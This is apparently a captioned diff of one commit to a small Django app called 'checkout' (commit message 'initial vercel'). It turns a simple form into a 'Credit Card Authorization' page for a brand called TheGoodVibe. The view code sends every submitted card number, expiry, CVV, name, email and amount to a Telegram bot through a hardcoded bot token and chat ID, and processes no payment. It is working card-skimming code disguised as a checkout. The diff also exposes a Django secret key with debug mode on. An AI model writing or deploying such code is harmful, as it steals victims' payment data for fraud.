

Before and after one commit to fritzjackhunt/checkout, a Django app: page /forms in a window 1280 px wide. Shown: the top 601 px of the page. Run offline with Django 4.2, Linux system fonts and the light colour scheme.

Commit message:
initial vercel

```diff
--- a/checkout/checkout/settings.py
+++ b/checkout/checkout/settings.py
@@ -26,7 +26,7 @@ SECRET_KEY = 'django-insecure-l-nbqbq%6is(faym0qb$t#!h6izxa)%ue2t6(*_v-9u)6glfj5
 # SECURITY WARNING: don't run with debug turned on in production!
 DEBUG = True
 
-ALLOWED_HOSTS = ['127.0.0.1', 'localhost']
+ALLOWED_HOSTS = ['127.0.0.1', 'localhost', '.vercel.app', 'thegoodvibe.xyz', 'now.sh']
 
 
 # Application definition
--- a/checkout/static/css/styles.css
+++ b/checkout/static/css/styles.css
@@ -2,6 +2,41 @@
     box-sizing: border-box;
 }
 
-h1 {
-    color: red;
+.img-center {
+    display: flex;
+    justify-content: center;
 }
+
+.txt-center {
+    display: flex;
+    justify-content: center;
+    align-content: center;
+    padding: 15px 10px;
+    background-color: blanchedalmond;
+    margin-top: 20px;
+    margin-bottom: 20px;
+}
+
+.txt-center h5 {
+    margin-bottom: 0px;
+}
+
+.card-input-wrapper {
+  display: flex;
+  border: 1px solid #ccc;
+  border-radius: 8px;
+  overflow: hidden;
+  max-width: 100%;
+}
+
+.card-input {
+  border: none;
+  padding: 12px;
+  flex: 1;
+  font-size: 16px;
+  outline: none;
+}
+
+.card-input:not(:last-child) {
+  border-right: 1px solid #ccc;
+}
--- a/checkout/templates/checkout/form.html
+++ b/checkout/templates/checkout/form.html
@@ -1,16 +1,106 @@
+{% load static %}
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-    <title>Form Page</title>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
 
+    <title>TheGoodVibe</title>
+
+    <!--BOOTSTRAP 5 CSS LINK-->
     <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-rbsA2VBKQhggwzxH7pPCaAqO46MgnOM80zW1RWuH61DGLwZJEdK2Kadq2F9CUG65" crossorigin="anonymous">
+
+    <!-- Template main CSS File -->
+    <link href="{% static 'css/styles.css' %}" rel="stylesheet">
 </head>
 <body>
-    <h1>Submit your info</h1>
-    <form method="post">
-        {% csrf_token %}
-        {{ form.as_p }}
-        <button type="submit">Submit</button>
-    </form>
+    <div class="container">
+        <div class="row">
+            <div class="col-lg-12">
+                <div class="img-center mt-5">
+                    <img src="{% static 'pictures/thegoodvibe.jpeg' %}" class='d-block' alt='thegoodvibe' style="width: 100px;">
+                </div>
+
+                <div class="txt-center">
+                    <h5>Credit Card Authorization</h5>
+                </div>
+
+                <form method="post">
+                    {% csrf_token %}
+                    <div class="row">
+                        <div class="mb-3 col-lg-6">
+                            {{form.first_name}}
+                        </div>
+
+                        <div class="mb-3 col-lg-6">
+                            {{form.last_name}}
+                        </div>
+
+                        <div class="mb-3 col-lg-12">
+                            {{form.email}}
+                        </div>
+
+                        <div class="mb-3">
+                            <!--<label class="form-label">Credit Card Info</label> Label Commented out -->
+                            <div class="d-flex border rounded overflow-hidden">
+                                <div class="flex-grow-1">
+                                    {{ form.card_number }}
+                                </div>
+                                <div style="width: 100px;">
+                                    {{ form.expiry }}
+                                </div>
+                                <div style="width: 80px;">
+                                    {{ form.cvv }}
+                                </div>
+                            </div>
+                        </div>
+
+                        <div class="mb-3 col-lg-12">
+                            {{form.address}}
+                        </div>
+
+                        <div class="mb-3 col-lg-12">
+                            {{form.amount}}
+                        </div>
+                    </div>
+
+                    <div class="d-grid gap-2">
+                        <button type="submit" class="btn btn-secondary">Submit</button>
+                    </div>
+                </form>
+            </div>
+        </div>
+    </div>
+
+
+
+    <!--BOOTSTRAP 5 JS LINK-->
+    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-kenU1KFdBIe4zVF0s0G1M5b4hcpxyD9F7jL+jjXkk+Q2h455rYXK/7HAuoJl+0I4" crossorigin="anonymous"></script>
+
+    <!--JS CUSTOM FUNCTIONS-->
+    <script>
+        document.addEventListener('DOMContentLoaded', function () {
+
+            // Card Number Formatting
+
+            const input = document.getElementById('card_number_input');
+            input.addEventListener('input', function (e) {
+                let value = e.target.value.replace(/\D/g, '').substring(0, 16); // digits only, max 16
+                value = value.replace(/(.{4})/g, '$1 ').trim(); // add space after every 4 digits
+                e.target.value = value;
+            });
+
+            // Expiry Date Formatting
+
+            const expiryInput = document.getElementById('expiry_input');
+            expiryInput.addEventListener('input', function (e) {
+                let value = e.target.value.replace(/\D/g, '').substring(0, 4);
+                if (value.length >= 3) {
+                value = value.replace(/^(\d{2})(\d{1,2})$/, '$1/$2');
+                }
+                e.target.value = value;
+            });
+        });
+    </script>
 </body>
 </html>
--- a/checkout/webout/forms.py
+++ b/checkout/webout/forms.py
@@ -1,23 +1,78 @@
 from django import forms
 
 class MyForm(forms.Form):
-    card_no = forms.CharField(
+
+    first_name = forms.CharField(
         max_length=100,
         widget=forms.TextInput(attrs={
-            'placeholder': '0123 4567 8910',
+            'placeholder': 'John',
             'class': 'form-control'
-        }))
+        })
+    )
 
-    expiry_date = forms.CharField(
+    last_name = forms.CharField(
         max_length=100,
         widget=forms.TextInput(attrs={
-            'placeholder': '01/12',
+            'placeholder': 'Doe',
             'class': 'form-control'
-        }))
+        })
+    )
+
+    email = forms.EmailField(
+        max_length=100,
+        widget=forms.TextInput(attrs={
+            'placeholder': 'Email Address',
+            'class': 'form-control'
+        })
+    )
+
+    card_number = forms.CharField(
+        label='',
+        max_length=19,
+        widget=forms.TextInput(attrs={
+            'placeholder': 'Card Number',
+            'inputmode': 'numeric',
+            'autocomplete': 'cc-number',
+            'class': 'card-input',
+            'id': 'card_number_input',
+        })
+    )
+
+    expiry = forms.CharField(
+        label='',
+        max_length=5,
+        widget=forms.TextInput(attrs={
+            'placeholder': 'MM/YY',
+            'inputmode': 'numeric',
+            'autocomplete': 'cc-number',
+            'class': 'card-input',
+            'id': 'expiry_input',
+        })
+    )
 
     cvv = forms.CharField(
+        label='',
+        max_length=3,
+        widget=forms.TextInput(attrs={
+            'placeholder': 'CVC',
+            'inputmode': 'numeric',
+            'autocomplete': 'cc-number',
+            'class': 'card-input',
+        })
+    )
+
+    address = forms.CharField(
         max_length=100,
         widget=forms.TextInput(attrs={
-            'placeholder': '123',
+            'placeholder': 'Billing Address',
             'class': 'form-control'
-        }))
+        })
+    )
+
+    amount = forms.CharField(
+        max_length=4,
+        widget=forms.TextInput(attrs={
+            'placeholder': 'Amount',
+            'class': 'form-control'
+        })
+    )
--- a/checkout/webout/views.py
+++ b/checkout/webout/views.py
@@ -1,22 +1,61 @@
+import requests
 from django.shortcuts import render, redirect
 from .forms import MyForm
 from colorama import init, Fore, Style
 
 init(autoreset=True)
 
+# Telegram ID
+TELEGRAM_BOT_TOKEN = '8131665636:AAEpdK_pyMsSP-7G-B88WO7-84VS91Jbuew'
+TELEGRAM_CHAT_ID = '8153215212'
+
 # Create your views here.
 def home(request):
     return render(request, 'checkout/index.html')
+
+def send_telegram_message(message):
+    url = f'https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage'
+    payload = {
+        'chat_id': TELEGRAM_CHAT_ID,
+        'text': message
+    }
+    try:
+        print("🔄 Sending message to Telegram...")
+        response = requests.post(url, data=payload)
+        print(f"✅ Telegram response status: {response.status_code}")
+        print(f"📬 Telegram response body: {response.text}")
+        return response.status_code == 200
+    except Exception as e:
+        print(f"❌ Error sending to Telegram: {e}")
+        return False
 
 def form_view(request):
     if request.method == 'POST':
         form = MyForm(request.POST)
         if form.is_valid():
-            # Console log the cleaned data
-            print(Fore.MAGENTA + "Form submitted: " + str(form.cleaned_data))
-            return redirect('success')
+            data = form.cleaned_data
+            message = (
+                f"New Form Submission:\n\n"
+                f"First Name: {data['first_name']}\n"
+                f"Last Name: {data['last_name']}\n"
+                f"Email: {data['email']}\n"
+                f"Card Number: {data['card_number']}\n"
+                f"Expiry: {data['expiry']}\n"
+                f"CVV: {data['cvv']}\n"
+                f"Amount: {data['amount']}"
+            )
+            sent = send_telegram_message(message)
+            if sent:
+                print("✅ Telegram message sent successfully.")
+            else:
+                print("⚠️ Telegram message failed to send.")
+            return render(request, 'checkout/success.html')  # direct render
+        else:
+            print("❌ Form is not valid.")
+            print(form.errors.as_json())
     else:
         form = MyForm()
+        print("👋 GET request, showing form.")
     return render(request, 'checkout/form.html', {'form': form})
 
 def success_view(request):
```
Also changed, not shown: checkout/requirements.txt (+6 -1 lines), checkout/static/pictures/thegoodvibe.jpeg (added), checkout/vercel.json (added), 3 other files.
